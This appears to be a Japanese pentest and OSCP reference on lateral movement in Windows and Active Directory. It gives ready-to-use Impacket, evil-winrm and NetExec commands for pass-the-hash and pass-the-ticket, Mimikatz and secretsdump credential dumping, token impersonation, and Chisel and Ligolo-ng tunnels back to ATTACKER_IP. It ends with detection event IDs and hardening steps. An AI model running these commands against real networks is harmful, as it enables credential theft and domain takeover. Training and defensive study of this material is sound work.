









## TL;DR

ラテラルムーブメントとは、あるホストへのアクセスを別のホストへのアクセスに変換するフェーズです。Windows / Active Directory 環境では「資格情報やハッシュを持っている → 別のマシンでシェルを取る」または「ドメイン全体を制圧する」という流れになります。

このリファレンスでは、実際のペンテストと OSCP ラボで使われる主要な手法をすべてまとめます。

| カテゴリ | 手法 |
|---|---|
| SMB ベース実行 | psexec.py / smbexec.py / atexec.py |
| WMI ベース実行 | wmiexec.py / dcomexec.py |
| WinRM | evil-winrm / winrm.py |
| 資格情報攻撃 | Pass-the-Hash (PTH) / Pass-the-Ticket (PTT) |
| トークン操作 | Token Impersonation / runas / Mimikatz pth |
| ネットワークピボット | Chisel SOCKS / Ligolo-ng / proxychains |
| 一括検証 | NetExec / nxc |

---

## 全体の流れ



---

## ツール選択チートシート

| ツール | 必要な権限 | シェルのユーザー | SMB署名でブロック？ | バイナリ展開 | ポート |
|---|---|---|---|---|---|
| `psexec.py` | ローカル/ドメイン管理者 | SYSTEM | される（署名なしが必要） | あり（ディスク） | 445 |
| `smbexec.py` | ローカル/ドメイン管理者 | SYSTEM | される | なし | 445 |
| `atexec.py` | ローカル/ドメイン管理者 | SYSTEM | される | なし | 445 |
| `wmiexec.py` | ローカル/ドメイン管理者 | 認証ユーザー | されない（SMB非依存） | なし | 135+動的 |
| `dcomexec.py` | ローカル/ドメイン管理者 | 認証ユーザー | されない | なし | 135+動的 |
| `evil-winrm` | ローカル/ドメイン管理者 | 認証ユーザー | されない | なし | 5985/5986 |

**判断基準：**
- AV/EDR がある → `smbexec.py` または `wmiexec.py`
- SMB がブロックされている → `wmiexec.py`（RPC/WMI）または `evil-winrm`（WinRM）
- ユーザーコンテキストが必要 → `wmiexec.py` または `evil-winrm`（SYSTEM ではなく本人として）
- 大量ホストへの一括実行 → `nxc smb` + `-x`

---

## 1. psexec.py — SCM + 名前付きパイプ経由の SYSTEM シェル

最もクラシックな手法。`ADMIN$` にサービスバイナリをアップロードし、SCM（サービスコントロールマネージャー）でサービスを作成して名前付きパイプで通信する。



```bash
# パスワード認証
psexec.py corp.local/administrator:Password1@10.10.10.50

# Pass-the-Hash
psexec.py corp.local/administrator@10.10.10.50 -hashes aad3b435b51404eeaad3b435b51404ee:8846f7eaee8fb117ad06bdd830b7586c

# Pass-the-Ticket
export KRB5CCNAME=/tmp/admin.ccache
psexec.py -k -no-pass corp.local/administrator@dc01.corp.local
```

**失敗するケース：** ADMIN$ 共有が無効、SMB 署名が必須（DC はデフォルト）、AV がサービスバイナリを検出。

---

## 2. smbexec.py — バイナリ不要の SYSTEM シェル

`binPath` に `cmd.exe /c <コマンド>` を直接指定したサービスを作成することで、ディスクにバイナリを書かない。psexec.py より AV 検出リスクが低い。



```bash
# パスワード認証
smbexec.py corp.local/administrator:Password1@10.10.10.50

# Pass-the-Hash
smbexec.py corp.local/administrator@10.10.10.50 -hashes :8846f7eaee8fb117ad06bdd830b7586c

# 特定コマンドを実行
smbexec.py corp.local/administrator:Password1@10.10.10.50 -c "whoami"
```

**AV が懸念される場合は psexec.py より smbexec.py を優先する。**

---

## 3. wmiexec.py — WMI 経由のユーザー権限シェル

WMI（`Win32_Process.Create`）を DCOM/RPC で利用する。`ADMIN$` や SMB を必要とせず、シェルは SYSTEM ではなく認証ユーザーとして実行される。



```bash
# パスワード認証
wmiexec.py corp.local/administrator:Password1@10.10.10.50

# Pass-the-Hash
wmiexec.py corp.local/administrator@10.10.10.50 -hashes :8846f7eaee8fb117ad06bdd830b7586c

# 非インタラクティブで単一コマンド実行
wmiexec.py corp.local/administrator:Password1@10.10.10.50 "whoami"

# Pass-the-Ticket
export KRB5CCNAME=/tmp/admin.ccache
wmiexec.py -k -no-pass corp.local/administrator@10.10.10.50
```

**利点：** バイナリ不要・サービス作成なし・SMB 署名に依存しない
**欠点：** DCOM/RPC ポート（135 + エフェメラル）が到達可能である必要がある

---

## 4. atexec.py — タスクスケジューラ経由の SYSTEM シェル

スケジュールタスクを作成してコマンドを実行し、出力を読み取った後タスクを削除する。

```bash
# パスワード認証
atexec.py corp.local/administrator:Password1@10.10.10.50 "whoami"

# Pass-the-Hash
atexec.py corp.local/administrator@10.10.10.50 -hashes :8846f7eaee8fb117ad06bdd830b7586c "whoami"
```

**用途：** SCM ベースの手法がブロック・監視されているがタスクスケジューラは監視されていない場合。

---

## 5. evil-winrm — インタラクティブな WinRM シェル

WinRM（ポート 5985/5986）が開いており、ユーザーが `Remote Management Users` または `Administrators` グループに属している場合の定番ツール。



```bash
# パスワード認証
evil-winrm -i 10.10.10.50 -u administrator -p Password1

# NTLM ハッシュ（Pass-the-Hash）
evil-winrm -i 10.10.10.50 -u administrator -H 8846f7eaee8fb117ad06bdd830b7586c

# Kerberos（Pass-the-Ticket）
export KRB5CCNAME=/tmp/admin.ccache
evil-winrm -i dc01.corp.local -u administrator -r corp.local

# セッション中にファイルをアップロード
upload /local/path/file.exe C:\Windows\Temp\file.exe

# ファイルをダウンロード
download C:\Users\Administrator\Desktop\flag.txt
```

**WinRM の確認：**
```bash
nxc winrm 10.10.10.0/24
nxc winrm 10.10.10.50 -u administrator -p Password1
# (Pwn3d!) が表示されれば実行権限あり
```

---

## 6. Pass-the-Hash (PTH)

NTLM 認証はチャレンジへの署名に直接ハッシュを使うため、平文パスワードは不要。LSASS・SAM・NTDS.dit から抽出したハッシュがそのまま認証に使える。



**ハッシュの入手方法：**
```bash
# NetExec 経由で LSA ダンプ（ターゲットへの管理者権限が必要）
nxc smb 10.10.10.50 -u administrator -p Password1 --lsa

# secretsdump — SAM + LSA + キャッシュ資格情報
secretsdump.py corp.local/administrator:Password1@10.10.10.50

# secretsdump — NTDS.dit（DC からドメイン全体のダンプ）
secretsdump.py corp.local/administrator:Password1@dc01.corp.local -just-dc-ntlm

# Mimikatz（侵害済み Windows ホスト上）
sekurlsa::logonpasswords
lsadump::sam
lsadump::dcsync /domain:corp.local /user:Administrator
```

**ハッシュを使った実行：**
```bash
# psexec
psexec.py corp.local/administrator@TARGET -hashes :NT_HASH

# wmiexec
wmiexec.py corp.local/administrator@TARGET -hashes :NT_HASH

# evil-winrm
evil-winrm -i TARGET -u administrator -H NT_HASH

# nxc でハッシュが有効なホストを一括確認
nxc smb 10.10.10.0/24 -u administrator -H NT_HASH
```

**注意 — LocalAccountTokenFilterPolicy：**
ローカル管理者アカウント（ドメイン管理者ではない）はネットワーク越しにフィルタされたトークンを取得するため、正しい資格情報でも権限エラーになる場合がある。
```powershell
# ターゲット側での修正
reg add HKLM\SOFTWARE\Microsoft\Windows\CurrentVersion\Policies\System /v LocalAccountTokenFilterPolicy /t REG_DWORD /d 1 /f
```

---

## 7. Pass-the-Ticket (PTT)

Kerberos チケット（TGT または TGS）を抽出して再利用する。PTH（NTLM）と異なり、Kerberos 専用サービスに対して有効で NTLM の痕跡が残らない。



**チケットの抽出と使用：**
```bash
# Mimikatz でチケットをエクスポート（侵害済み Windows ホスト）
sekurlsa::tickets /export
# → .kirbi ファイルが生成される

# .kirbi を Linux 互換の .ccache に変換
ticketConverter.py ticket.kirbi ticket.ccache

# Linux で使用
export KRB5CCNAME=/tmp/ticket.ccache
psexec.py -k -no-pass corp.local/administrator@dc01.corp.local
wmiexec.py -k -no-pass corp.local/administrator@10.10.10.50

# ハッシュから TGT をリクエスト（Overpass-the-Hash / PTK）
getTGT.py corp.local/administrator -hashes :NT_HASH
export KRB5CCNAME=administrator.ccache
```

---

## 8. トークン偽装

侵害済み Windows ホスト上で、他のログインユーザーやサービスのトークンを偽装できる。資格情報は不要。

**Meterpreter を使用：**
```bash
use incognito
list_tokens -u
impersonate_token "CORP\\Domain Admin"
```

**Mimikatz を使用：**
```
token::elevate          # SYSTEM トークンを偽装
token::list             # 利用可能なトークンを一覧表示
sekurlsa::logonpasswords  # 偽装後に新しい資格情報をダンプ
```

**PrintSpoofer / GodPotato（SeImpersonatePrivilege 保持時）：**
```bash
# SeImpersonatePrivilege がある場合（サービスアカウント・IIS・MSSQL で一般的）
PrintSpoofer64.exe -i -c cmd
GodPotato.exe -cmd "cmd /c whoami"
```

---

## 9. NetExec (nxc) — 大規模ラテラルムーブメント検証

特定ツールにコミットする前に、サブネット全体で資格情報・ハッシュが有効な場所を一括確認する。

```bash
# サブネット全体でパスワード検証
nxc smb 10.10.10.0/24 -u administrator -p Password1

# NTLM ハッシュで検証
nxc smb 10.10.10.0/24 -u administrator -H NT_HASH

# 有効なホスト全台でコマンド実行
nxc smb 10.10.10.0/24 -u administrator -p Password1 -x "whoami"

# WinRM 検証
nxc winrm 10.10.10.0/24 -u administrator -p Password1

# (Pwn3d!) → ローカル管理者 + 実行権限あり
```

---

## 10. ピボット / ネットワークトンネリング

内部に侵入したら、直接到達できないネットワークセグメントにアクセスする必要があることが多い。詳細は [Chisel / Ligolo-ng ガイド](/posts/tech-chisel-ligolo-ligolo-mp/) を参照。



**Chisel — SOCKS プロキシ（素早いピボット）：**
```bash
# 攻撃者側
chisel server --reverse --port 8080

# ピボットホスト（Windows）
.\chisel.exe client ATTACKER_IP:8080 R:socks

# proxychains で使用
proxychains nmap -sT -Pn 10.10.20.10
proxychains evil-winrm -i 10.10.20.10 -u administrator -p Password1
```

**Ligolo-ng — 透過的な L3 ルーティング：**
```bash
# 攻撃者側
./proxy -selfcert -laddr 0.0.0.0:11601
sudo ip tuntap add user kali mode tun ligolo && sudo ip link set ligolo up

# ピボットホスト
.\agent.exe -connect ATTACKER_IP:11601 -ignore-cert

# Ligolo プロキシコンソール
session → エージェントを選択 → start
# 攻撃者側にルートを追加
sudo ip route add 10.10.20.0/24 dev ligolo
# proxychains 不要で内部セグメントに直接アクセス可能
```

---

## 全体の攻撃フロー例



---

## Impacket ツール早見表

| ツール | コマンド | 備考 |
|---|---|---|
| `psexec.py` | `psexec.py DOMAIN/USER:PASS@TARGET` | SYSTEM シェル、バイナリあり |
| `smbexec.py` | `smbexec.py DOMAIN/USER:PASS@TARGET` | SYSTEM シェル、バイナリなし |
| `wmiexec.py` | `wmiexec.py DOMAIN/USER:PASS@TARGET` | WMI 経由でユーザーシェル |
| `atexec.py` | `atexec.py DOMAIN/USER:PASS@TARGET "cmd"` | タスクスケジューラで SYSTEM |
| `dcomexec.py` | `dcomexec.py DOMAIN/USER:PASS@TARGET` | DCOM 経由でユーザーシェル |
| `secretsdump.py` | `secretsdump.py DOMAIN/USER:PASS@TARGET` | SAM/LSA/NTDS ダンプ |
| `getTGT.py` | `getTGT.py DOMAIN/USER -hashes :HASH` | ハッシュから TGT リクエスト |
| `getST.py` | `getST.py -spn cifs/TARGET DOMAIN/USER` | サービスチケットリクエスト |
| `ticketConverter.py` | `ticketConverter.py a.kirbi a.ccache` | チケット形式変換 |

**認証フラグ（全ツール共通）：**
```bash
-hashes LM:NT        # Pass-the-Hash
-k -no-pass          # Pass-the-Ticket（事前に KRB5CCNAME を設定）
-dc-ip IP            # Kerberos 用の DC を指定
```

---

## 検出 — Blue Team 視点

| 手法 | イベント ID | 監視ポイント |
|---|---|---|
| psexec / smbexec | 7045 | `C:\Windows\` にランダム名の短命なサービス |
| psexec / smbexec | 5140 | 非管理ホストからの `ADMIN$` 共有アクセス |
| wmiexec | 4648 | 明示的資格情報ログオン + WMI プロセス作成 |
| PTH 全般 | 4624 ログオン種別3 | 不審な IP からの NTLM（Kerberos ではない） |
| 実行ツール全般 | 4688 | `WmiPrvSE.exe` / `services.exe` から `cmd.exe` 起動 |
| evil-winrm | 4624 ログオン種別3 | 不審なホストからの WinRM セッション |
| チケット悪用 | 4769 | 不審な SPN または不審な送信元からの TGS リクエスト |
| DCSync | 4662 | 非 DC によるレプリケーション権限行使 |

---

## 対策

```powershell
# SMB 署名を有効化（リレー防止 + psexec 攻撃面の縮小）
Set-SmbServerConfiguration -RequireSecuritySignature $true

# 不要な WinRM を無効化
Stop-Service WinRM; Set-Service WinRM -StartupType Disabled

# ファイアウォールで ADMIN$ アクセスを制限（ジャンプホストのみ許可）
netsh advfirewall firewall add rule name="Block ADMIN$ from non-mgmt" ...

# LAPS を導入 — マシンごとに一意のローカル管理者パスワード
# ローカル管理者アカウントでの PTH ラテラルムーブメントを防止

# Credential Guard を有効化 — LSASS からのハッシュ抽出を防止
# UEFI セキュアブート + 仮想化ベースのセキュリティが必要

# 特権アクセスワークステーション (PAW)
# 管理者は専用の堅牢化されたワークステーションからのみ管理操作を実行
```

---

## 関連記事

- [psexec.py — できることとできないこと](/posts/tech-psexec-lateral-movement-ja/)
- [NetExec (nxc) — 初心者向け実践ガイド](/posts/tech-netexec-beginner-guide-ja/)
- [Chisel / Ligolo-ng / Ligolo-mp — ピボットガイド](/posts/tech-chisel-ligolo-ligolo-mp-ja/)
- [ntlmrelayx.py — できることとできないこと](/posts/tech-ntlmrelayx-attack-guide-ja/)
- [Mimikatz 完全使用ガイド](/posts/tech-mimikatz-guide-ja/)
- [Kerberos OSCP 攻撃テクニック](/posts/tech-kerberos-oscp-guide-ja/)

---

## 参考リンク

- [MITRE ATT&CK — Lateral Movement (TA0008)](https://attack.mitre.org/tactics/TA0008/)
- [Impacket GitHub](https://github.com/fortra/impacket)
- [evil-winrm GitHub](https://github.com/Hackplayers/evil-winrm)
- [NetExec GitHub](https://github.com/Pennyw0rth/NetExec)
- [HackTricks — Lateral Movement](https://book.hacktricks.xyz/windows-hardening/lateral-movement)
